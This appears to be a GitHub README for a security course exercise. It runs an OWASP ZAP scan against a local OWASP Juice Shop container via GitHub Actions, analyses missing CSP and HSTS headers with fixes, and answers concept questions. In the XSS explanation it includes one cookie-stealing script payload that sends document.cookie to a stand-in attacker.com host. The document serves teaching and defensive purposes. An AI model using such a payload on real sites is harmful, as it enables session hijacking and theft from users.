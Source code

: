 # OWASP ZAP: Detecting Web Vulnerabilities with GitHub Actions

This repository contains the solution for the Day 2 exercise, "OWASP Top 10 – Overview & Use Cases". The goal of this exercise was to set up a Dynamic Application Security Testing (DAST) pipeline, scan a vulnerable web application, analyze the results, and document the findings.

This was accomplished by:
1.  Setting up and running **OWASP Juice Shop** using Docker.
2.  Creating a **GitHub Actions** CI/CD pipeline to automate the security scan.
3.  Integrating the **OWASP ZAP Baseline Scan** to run against the application.
4.  Generating a vulnerability report and analyzing two key findings from the OWASP Top 10.

---

## Setup: Running the Target Application (OWASP Juice Shop)

For this exercise, OWASP Juice Shop was used as the vulnerable target application. It was run locally as a Docker container, providing a consistent and isolated testing environment.

The following steps were used to set up the application:

1.  **Pull the Docker Image:** The latest official image was pulled from Docker Hub.
    ```bash
    docker pull bkimminich/juice-shop
    ```

2.  **Run the Docker Container:** The container was started, mapping port 3000 on the local machine to port 3000 inside the container.
    ```bash
    docker run --rm -p 3000:3000 bkimminich/juice-shop
    ```
3.  The application was then accessible for testing at `http://localhost:3000`.

---

## CI/CD Pipeline Integration

A GitHub Actions workflow was configured in `.github/workflows/zap-scan.yml`.

---

#### Vulnerability 1: Content Security Policy (CSP) Header Not Set

*   **Impact:** This is a **Medium** severity finding. Without a Content Security Policy, the application is significantly more vulnerable to Cross-Site Scripting (XSS) attacks. A CSP acts as a critical layer of defense by telling the browser which sources of content (like scripts and styles) are trusted. If an attacker injects a malicious script from an untrusted domain, a proper CSP would block it from executing, which helps protect the user's session and sensitive data from being stolen.

*   **Recommended Fix:** Implement a Content Security Policy by adding the `Content-Security-Policy` HTTP header to all responses from the server. A good starting policy is to only allow content from the application's own domain. For example: `Content-Security-Policy: default-src 'self';`.

#### Vulnerability 2: Strict-Transport-Security (HSTS) Header Not Set

*   **Impact:** This is a **Low** severity finding but has a high potential impact. The lack of an HSTS header exposes users to man-in-the-middle attacks. If a user connects to the site via an insecure link (HTTP), an attacker could intercept the connection before it is redirected to secure HTTPS. This could allow the attacker to steal sensitive information like session cookies or login credentials during that initial insecure request.

*   **Recommended Fix:** Add the `Strict-Transport-Security` header to all HTTPS responses. A recommended configuration is `Strict-Transport-Security: max-age=31536000; includeSubDomains`. This forces the browser to only communicate with the site over HTTPS for the next year, closing the window for downgrade attacks.

---

## Core Concept Questions

### What is the purpose of DAST and how does it complement other security testing methods?

Dynamic Application Security Testing (DAST) is a "black-box" security testing method that finds vulnerabilities in a running application by simulating external attacks. It complements other methods like SAST (Static Application Security Testing) by finding runtime and environment-specific issues (e.g., server misconfigurations, authentication flaws, or vulnerabilities that only appear when different services interact) that cannot be found by analyzing source code alone.

**Use Case Example:** A developer writes perfectly secure code for handling file uploads, which passes all SAST scans. However, the operations team deploys the application to a cloud server where the storage bucket is accidentally configured to be publicly readable. A DAST scan, which actively probes the live application, would discover this misconfiguration by successfully accessing an uploaded file without authentication—a critical vulnerability that SAST was completely blind to.

### Explain how XSS or SQL injection vulnerabilities can affect an application and its users.

*   **XSS (Cross-Site Scripting):** Affects users by allowing attackers to execute malicious scripts in their browsers, which can lead to session hijacking, credential theft, and keylogging. It affects the application by damaging its reputation, defacing its content, and potentially leading to the compromise of administrator accounts, giving attackers control over the entire site.
*   **SQL Injection:** Affects the application by allowing attackers to bypass authentication, read, modify, or delete all data in the database. This can lead to a complete server compromise. It affects users by causing a massive data breach of their personal and financial information (passwords, credit cards, etc.), resulting in a total loss of trust.

**Use Case Example (XSS):** An attacker posts a comment on an e-commerce product review page. The comment contains a hidden script: `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. The website fails to sanitize this input and displays the comment. Now, every legitimate user who views that product page will have their browser execute the script, unknowingly sending their session cookie to the attacker's server. The attacker can then use this cookie to take over the user's shopping session, steal their personal information, and make purchases with their saved credit card.

### Describe the steps you would take to fix the vulnerabilities detected in your ZAP scan.

1.  **Analyze and Prioritize:** Review the ZAP report to understand the vulnerabilities and prioritize them based on their risk level and potential impact. In this scan, the Medium-risk "Content Security Policy (CSP) Header Not Set" would be the top priority.
2.  **Remediate:** Implement code-level or configuration changes to fix the identified flaws. For the two vulnerabilities found, this involves adding the `Content-Security-Policy` and `Strict-Transport-Security` headers to the web server's or application's configuration.
3.  **Re-scan:** After deploying the fixes, run the ZAP scan again in the CI/CD pipeline. This is a critical step to verify that the fixes have successfully removed the vulnerabilities and have not introduced new ones.
4.  **Document:** Document the findings and the remediation steps taken for auditing, team knowledge sharing, and future reference.

**Use Case Example (Fixing HSTS):**
1.  **Analyze:** The ZAP report shows a "Strict-Transport-Security Header Not Set" warning.
2.  **Remediate:** A developer edits the web server's configuration (e.g., Nginx) and adds the line: `add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;`.
3.  **Re-scan:** The developer commits and pushes the configuration change. The GitHub Actions pipeline automatically runs the ZAP scan again. The new report shows that the HSTS warning is no longer present.
4.  **Document:** The developer closes the security ticket, linking to the successful pipeline run and the commit that fixed the issue.

### How does integrating ZAP scans into CI/CD pipelines support shift-left security practices?

Integrating ZAP scans into a CI/CD pipeline is a core practice of "shifting left" on security. It automates security testing early and often in the development lifecycle, rather than waiting until the end. This provides developers with immediate feedback on the security impact of their code changes. By catching vulnerabilities with every commit, organizations can fix issues when they are fastest, cheapest, and easiest to resolve, which dramatically reduces risk, lowers development costs, and builds a stronger, more security-conscious engineering culture.

**Use Case Example:**
*   **Without Shift-Left:** A team spends three months building a new feature. Right before launch, a manual penetration test finds a critical vulnerability. The launch is delayed for two weeks while developers scramble to fix old code they are no longer familiar with, causing stress and blowing the project budget.
*   **With Shift-Left:** A developer makes a small change and pushes it. Ten minutes later, the automated ZAP scan in their CI/CD pipeline fails, alerting them that their change accidentally introduced a potential XSS vulnerability. They immediately fix the issue in five minutes while the code is still fresh in their mind, push again, and the pipeline passes. The vulnerability is eliminated instantly at almost no cost.